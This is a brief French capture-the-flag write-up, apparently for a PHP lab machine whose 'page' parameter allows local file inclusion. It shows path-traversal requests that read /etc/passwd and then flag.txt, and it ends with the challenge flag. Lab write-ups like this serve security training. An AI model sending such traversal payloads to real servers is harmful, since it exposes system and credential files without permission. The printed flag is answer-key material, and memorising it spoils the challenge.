



#### Description

Démarrez la machine, hackez le système et trouvez les flags cachés pour compléter ce défi et gagner des XP!

**URL de départ :** [http://54.74.200.38/index.php?page=about.html](http://54.74.200.38/index.php?page=about.html)

L'application est une page PHP simple avec un paramètre `page` qui semble vulnérable à une **Local File Inclusion (LFI)**.


http://54.74.200.38/index.php?page=about.html
#### Reconnaissance et exploitation

#### 1. Test de base LFI

On teste immédiatement une inclusion de fichier système :

```
http://54.74.200.38/index.php?page=../../../etc/passwd
```
**Résultat :** Lecture réussie du fichier `/etc/passwd` !


#### 2. Recherche du flag

On cherche un fichier `flag.txt` dans le répertoire racine :

`http://54.74.200.38/index.php?page=../../../flag.txt`



>**Flag**
>12f15c36-b4ac-4b19-b179-40aab0874eeb
